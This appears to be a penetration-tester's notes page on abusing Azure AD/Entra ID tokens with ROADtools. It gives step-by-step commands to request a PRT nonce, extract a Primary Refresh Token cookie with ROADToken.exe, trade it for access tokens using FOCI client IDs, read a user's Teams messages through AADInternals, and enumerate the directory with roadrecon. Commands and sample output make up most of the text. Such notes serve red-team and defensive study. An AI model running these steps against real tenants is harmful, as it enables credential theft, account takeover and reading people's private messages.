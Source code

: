 # Abusing and Extracting Tokens
## roadtools
### Setup
Download whl files from: 
https://dev.azure.com/dirkjanm/ROADtools/_build/latest?definitionId=19&branchName=master
(zip file can be found under "1 published" link)
Install the whl files with pip (roadlib must be installed first!):    
```
pip install .\roadlib-1.0.0-py3-none-any.whl
pip install .\roadrecon-1.6.1-py3-none-any.whl
pip install .\roadtx-1.15.0-py3-none-any.whl
```
### Get PRT 
Request a nonce:    
```
roadrecon auth --prt-init -t <tenantId>
Requested nonce from server to use with ROADtoken: AwABEgEAAAADAOz_BQD0_w1Yd6-owW2iJut0x_rDQtRq7qZ_xxxx
```
Request token:    
```
.\ROADToken.exe AwABEgEAAAADAOz_BQD0_w1Yd6-owW2iJut0x_rDQtRq7qZ_xxxxxx
Using nonce AwABEgEAAAADAOz_BQD0_w1Yd6-owW2iJut0x_rDQtRq7qZ_xxxxxx
ô§  { "response": [{ "name": "x-ms-RefreshTokenCredential", "data": "eyJrZGZfdmVyIjoyLCJjdHgiOiJTNFhMazdaaEJxdUM2Q2J2d24wWCtacFhrdGtOdGZlRyIsImFsZyI6IkhTMjU2In0.eyJ4X2NsaWVudF9wbGF0Zm9ybSI6IndpbmRvd3MiLCJ3aW5kb3dzX2FwaV92Z[...]
```
Get Tokens:
```
roadrecon auth --prt-cookie eyJrZGZfdmVyIjoyLCJjdHgiOiJTNFhMazdaaEJxdUM2Q2J2d24wWCtacFhrdGtOdGZlRyIsImFsZyI6IkhTMjU2In0.eyJ4X2NsaWVudF9wbGF0Zm9ybSI6IndpbmRvd3MiLCJ3aW5kb3dzX2FwaV92Z...
Tokens were written to .roadtools_auth
```
### Use Tokens 
Example for gathering Teams messages using AADInternals:    
```
roadrecon auth --prt-init -t <tenantId>>
.\ROADToken.exe AwABEgEAAAADAOz_Bxxxxx
roadrecon auth --prt-cookie 'eyJxxxxx' -c '1fec8e78-bce4-4aaf-ab1b-5451cc387264' -r 'https://api.spaces.skype.com'
$teamstokens = cat .\.roadtools_auth |ConvertFrom-Json
Get-AADIntTeamsMessages -AccessToken $teamstokens.accesstoken
```
Note: The FOCI client Id has to be specified in the `-c`parameter of roadrecon auth command, in this case the Id is for the Teams client. The Ids can be found here: https://github.com/secureworks/family-of-client-ids-research?tab=readme-ov-file#which-client-applications-are-compatible-with-each-other

### RoadRecon
```
roadrecon gather
```
This creates the roadrecon.db file